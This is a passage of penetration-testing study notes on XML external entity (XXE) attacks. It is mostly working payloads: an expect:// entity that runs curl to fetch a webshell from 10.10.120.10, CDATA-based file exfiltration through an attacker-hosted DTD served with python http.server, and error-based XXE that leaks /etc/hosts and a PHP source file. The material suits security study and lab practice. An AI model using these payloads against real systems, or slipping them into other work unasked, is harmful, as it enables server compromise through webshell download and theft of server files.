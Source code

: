     ```xml
    <!DOCTYPE email [
      <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'10.10.120.10/webshell.php'">
    ]>
    ```

* Advanced file disclosure:

  * Advanced exfiltration with CDATA:

    * to output data that does not obey XML syntax, we can wrap it with ```CDATA``` tags; and this can be used with XML parameter entities (start with ```%```, used only within DTD):

      ```shell
      echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
      # store this in a DTD file in our machine and host it

      python3 -m http.server 8000
      ```

      ```xml
      <!DOCTYPE email [
        <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
        <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
        <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
        <!ENTITY % xxe SYSTEM "http://10.10.120.10:8000/xxe.dtd"> <!-- reference our external DTD -->
        %xxe;
      ]>
      <root>
      <name>test</name>
      <email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
      </root>
      ```
  
  * Error based XXE:

    * this can be used if webapp displays runtime errors with improper exception handling for XML input

    * we can test by sending malformed XML data - delete any closing tag, misspell one of the tags or reference a non-existing entity

    * if  webapp displays error, we can exploit it to exfiltrate file content:

      ```xml
      <!-- host this DTD file on our machine -->
      <!ENTITY % file SYSTEM "file:///etc/hosts">
      <!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
      ```

      ```xml
      <!-- call the external DTD script and reference the error entity -->
      <!-- no need to add any other data -->
      <!DOCTYPE email [ 
        <!ENTITY % remote SYSTEM "http://10.10.120.10:8000/xxe.dtd">
        %remote;
        %error;
      ]>
      ```
  